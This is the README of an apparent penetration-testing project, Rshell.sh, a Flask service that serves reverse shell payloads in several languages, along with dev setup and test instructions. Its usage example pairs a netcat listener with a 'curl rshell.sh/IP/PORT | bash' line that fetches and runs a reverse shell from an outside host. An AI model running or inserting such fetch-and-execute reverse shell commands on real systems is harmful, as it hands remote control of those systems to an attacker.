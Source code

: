 # Rshell.sh Reverse Shell Payloads aaS

[Live Site!](https://rshell.sh)

## Overview / How it works

This project is multi-language reverse shell payload generator written in
Python3 using the Flask web framework. The point is to make it easy to quickly
pull reverse shell payloads down from the *cloud* ☁️  to your terminal using
`curl` or `wget`.

### Example Usecase

* Setup you listener:

```
nc -lvnp 1234
```

* Then query [`rshell.sh`](https://rshell.sh) to kick off the reverse shell:

```
curl rshell.sh/127.0.0.1/1234 | bash
```

## Languages Covered

* Bash
* Python
* Perl
* PHP
* Awk

See the project [help page](https://rshell.sh/help) for more information.

## Dev Site Install / Setup

The server-side setup is pretty straight forward and this is run just like any
other flask app. Of course the instructions below are for spinning up the dev
version. Production setup involves extra steps and depends on your hosting
environment.

* First clone the repo:

```
git clone https://github.com/BlueSquare23/Rshell.sh
```

* Then install the required python modules:

```
cd Rshell.sh
virtualenv venv             # Virtual Env Optional
source venv/bin/activate    # Virtual Env Optional
pip3 install -r requirements.txt
```

* Finally, run the project:

```
python3 app.py
```

### Testing

The test are written using [`pytest`](https://pytest.org/). You can run the
test code by cd'ing into the project's main directory and running pytest.

```
cd Rshell.sh
virtualenv venv             # Virtual Env Optional
source venv/bin/activate    # Virtual Env Optional
python3 -m pytest
```

## Technologies

* Language: [Python 3](https://www.python.org/)
* Web-Framework: [Flask](https://palletsprojects.com/p/flask/)

